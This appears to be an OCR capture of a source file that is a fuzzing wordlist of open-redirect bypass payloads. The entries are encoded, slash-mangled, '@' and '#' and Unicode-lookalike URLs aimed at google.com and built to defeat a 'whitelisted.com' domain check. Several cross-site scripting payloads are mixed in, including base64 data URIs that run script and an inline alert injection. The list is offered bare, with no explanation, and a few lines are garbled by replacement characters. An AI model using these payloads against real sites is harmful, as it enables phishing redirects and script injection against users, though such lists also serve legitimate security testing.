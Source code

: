 /%5cwhitelisted.com@google.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
%68%74%74%70%73%3a%2f%2f%6c%6f%63%61%6c%64%6f%6d%61%69%6e%2e%70%77
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ:80?@whitelisted.com/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ:80#@whitelisted.com/
";alert(0);//
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=
data:whitelisted.com;text/html;charset=UTF-8,<html><script>document.write(document.domain);</script><iframe/src=xxxxx>aaaa</iframe></html>
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ%E3%80%82pw
//google%00.com
/\google%252ecom
google%252ecom
<>//google.com
/<>//google.com
//;@google.com
///;@google.com
/////google.com/
/////google.com
////\;@google.com
////google.com//
////google.com/
////google.com
///\;@google.com
///google.com//
///google.com/
///google.com
//\/google.com/
//\google.com
//google.com//
//google.com/
//google.com
/.google.com
/\/\/google.com/
/\/google.com/
/\/google.com
/\google.com
/〱google.com
/google.com
../google.com
.google.com
@google.com
\/\/google.com/
〱google.com
google.com
google.com%23@whitelisted.com
////google.com/%2e%2e
///google.com/%2e%2e
//google.com/%2e%2e
/google.com/%2e%2e
//google.com/%2E%2E
////google.com/%2e%2e%2f
///google.com/%2e%2e%2f
//google.com/%2e%2e%2f
////google.com/%2f..
///google.com/%2f..
//google.com/%2f..
//google.com/%2F.. 
/google.com/%2F.. 
////google.com/%2f%2e%2e
///google.com/%2f%2e%2e